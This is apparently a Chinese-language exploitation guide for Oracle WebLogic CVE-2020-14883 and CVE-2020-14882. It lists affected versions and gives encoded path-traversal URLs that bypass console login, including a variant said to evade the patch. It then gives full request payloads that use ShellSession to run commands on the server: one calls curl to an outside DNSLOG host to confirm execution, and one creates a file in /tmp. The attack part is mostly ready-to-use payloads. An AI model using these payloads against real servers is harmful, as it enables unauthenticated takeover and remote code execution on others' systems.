     远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console，并在 WebLogic Server Console 执行任意代码。

**漏洞影响版本**

```
`Oracle Weblogic Server 10.3.6.0.0``Oracle Weblogic Server 12.1.3.0.0``Oracle Weblogic Server 12.2.1.3.0``Oracle Weblogic Server 12.2.1.4.0``Oracle Weblogic Server 14.1.1.0.0`
```

  

**CVE-2020-14883:权限绕过漏洞**

    远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console。权限绕过漏洞（CVE-2020-14883），访问以下URL，未授权访问到管理后台页面（低权限的用户）

```
`/console/images/%252E%252E%252Fconsole.portal``/console/css/%252e%252e%252fconsole.portal（小写可绕过补丁）``/console/css/%25%32%65%25%32%65%25%32%66console.portal`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

    此时的权限很低，并不能在后台安装应用，所以需要结合CVE-2020-14883漏洞

**CVE-2020-14882 : 代码执行漏洞**

    结合 CVE-2020-14883 漏洞，远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console ，并在 WebLogic Server Console 执行任意代码。

    **该漏洞有两个利用手法**

```
`利用 com.tangosol.coherence.mvel2.sh.ShellSession 执行命令``利用 com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext 执行命令`
```

**1. 利用 com.tangosol.coherence.mvel2.sh.ShellSession 执行命令**

**DNSLOG的使用**

```
`DNSLOG可以在某些无法直接利用漏洞获得回显的情况下，``但是目标可以发起DNS请求，这个时候就可以通过这种方式把想获得的数据外带出来。`
```

     进入DNSLOG平台 http://www.dnslog.cn/ ，点击GET 获取一个域名，然后使用payload执行命令

```
http://IP:7001//console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('curl%20xx.dnslog.cn');")
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

直接访问URL

```
http://ip:端口/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');")
```
